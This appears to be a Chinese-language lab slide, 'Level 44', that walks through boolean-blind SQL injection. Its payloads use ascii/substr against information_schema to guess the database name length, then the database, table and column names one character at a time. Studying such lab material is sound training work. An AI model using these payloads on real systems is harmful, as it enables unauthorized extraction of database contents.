

# 第四十四关
猜解库名长度
' or (length(database()))=8 -- qwe
利用ASCII码猜解当前数据库名称：
' or (ascii(substr(database(),1,1)))=115-- qwe 返回正常，说明数据库名称第一位是s
' or (ascii(substr(database(),2,1)))=101-- qwe 返回正常，说明数据库名称第二位是e
猜表名：
' or (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))=101-- qwe 如果返回正常，说明数据库表名的第一个的第一位是e
猜字段名
'or (ascii(substr((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1)))=105-- qwe 如果返回正常，说明emails表中的列名称第一位是i